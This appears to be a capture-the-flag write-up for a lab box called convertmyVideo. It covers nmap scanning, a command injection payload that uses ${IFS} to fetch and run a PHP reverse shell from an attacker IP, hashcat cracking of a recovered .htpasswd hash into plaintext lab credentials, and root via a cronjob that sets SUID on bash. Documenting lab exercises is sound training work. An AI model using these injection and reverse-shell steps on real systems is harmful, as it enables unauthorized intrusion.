


# convertmyVideo


## nmap

initial scan results

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


initial aggressive scan

PORT      STATE    SERVICE      VERSION
22/tcp    open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp    open     http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5061/tcp  filtered sip-tls
10003/tcp filtered documentum_s
28201/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


## httpenumeration


### command injection


- there is a command injection in the output taken


now we can get command execution lets try to get a shell

- there is a problem with space 

- whenever we type space it breaks the injection 

- to mitigate it we will use ${IFS}

- ```
  ;wget${IFS}10.11.14.54:8000/rev.php
  ```


- file is saved in server now we need to execute the script


- now we need to execute the shell to 

- start a reverse netcat listener on our machine

- ```
  php${IFS}rev.php
  ```


## shell

we got a shell


### files


got the first flag




.htpasswd


- got credentials lets try to decode it
- its a md5 apr encryption


## hashcat


- we will use hashcat
- and rockyou.txt to crack the password
- we select mode 1600


### credentials





username	itsmeadmin

password	 jessie


## post

- lets try to login to the admin panel with these credentials
- we logged in but did not find anything
- used linpeas.sh but nothing 
- now using pspy64s to check for any running cronjobs


- seems like we got a file executed by root 
- seens like a cronjob 
- lets set suid bit on bash


setuid bit on bash


### root


